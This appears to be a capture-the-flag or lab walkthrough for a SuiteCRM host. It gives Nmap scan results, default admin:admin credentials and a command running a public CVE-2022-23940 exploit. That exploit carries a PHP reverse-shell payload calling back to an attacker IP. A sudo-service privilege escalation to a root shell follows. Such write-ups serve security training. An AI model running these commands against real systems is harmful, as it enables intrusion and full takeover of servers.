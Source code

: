 ____

> [!info]
> IP=192.168.190.146

# Nmap
| PORT | STATE | SERVICE |
| ---- | ---- | ---- |
| 22/tcp | open | ssh |
| 80/tcp | open | http |
| 3306/tcp | open | mysql |
| 33060/tcp | open | mysqlx |

```python
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)
|_  256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.38 (Debian)
| http-robots.txt: 1 disallowed entry 
|_/
| http-title: SuiteCRM
|_Requested resource was index.php?action=Login&module=Users
3306/tcp  open  mysql   MySQL (unauthorized)
33060/tcp open  mysqlx?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.94SVN%I=7%D=2/1%Time=65BC56A7%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
```
# 80 - http
admin:admin

- suitecrm
https://github.com/manuelz120/CVE-2022-23940

```bash
./exploit.py -h http://192.168.190.146 -u admin -p admin --payload "php -r '\$sock=fsockopen(\"192.168.45.180\", 4444); exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
```


# PrivEsc

```bash
sudo -l

User www-data may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/service

sudo service ../../bin/sh
```


find / -type f -name "*.txt" -o ! -name "*.*"
